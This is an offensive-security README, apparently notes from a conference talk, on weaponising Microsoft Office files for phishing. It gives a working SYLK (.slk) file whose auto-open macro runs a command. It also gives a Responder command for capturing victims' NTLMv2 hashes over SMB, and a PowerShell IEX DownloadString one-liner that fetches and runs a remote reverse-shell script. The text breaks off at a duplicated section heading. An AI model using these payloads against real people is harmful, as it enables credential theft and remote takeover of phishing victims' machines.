


# Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2018, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:

1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

A common finding in penetration tests is that clients are not properly managing egress packet filtering from their network to the internet. This post specifically talks about the dangers of allowing egress of SMB communications over port 445 to the internet, and one simple method of exploiting it to capture a user's credentials, crack them, and gain access to the network.

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).



#### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

DONE...



More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files

## 2. Excel (.SLK)

